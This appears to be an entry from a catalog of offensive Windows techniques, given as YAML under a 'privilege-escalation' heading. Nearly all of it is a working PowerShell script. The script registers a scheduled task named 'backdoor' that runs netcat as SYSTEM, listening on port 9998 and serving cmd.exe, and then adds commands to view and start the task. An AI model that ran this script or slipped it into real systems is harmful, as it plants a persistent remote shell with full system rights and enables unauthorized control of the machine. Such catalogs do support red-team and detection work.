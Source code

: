```yaml
---
functions:
  privilege-escalation:
    - description: Use Windows Scheduler to elevate permissions to SYSTEM via a backdoor
      code: |
        Unregister-ScheduledTask -TaskName "backdoor"
        $filepath = "C:\users\admin\documents\nc.exe"
        $port = "9998"
        $taskname = "backdoor"
        $time = "1:57"
        $action = New-ScheduledTaskAction -Execute $filepath -argument "-l -p $port -e cmd.exe"
        $trigger = New-ScheduledTaskTrigger -At $time -Once
        $principal = New-ScheduledTaskPrincipal -UserId 'NT AUTHORITY\SYSTEM' -RunLevel Highest
        $settings = New-ScheduledTaskSettingsSet
        $task = New-ScheduledTask -Action $action -Principal $principal -Trigger $trigger -Settings $settings
        Register-ScheduledTask $taskname -InputObject $task


        View task:
        Get-ScheduledTask -TaskName backdoor

        Run Task:
        Start-ScheduledTask -TaskName backdoor

resources : |

---
```


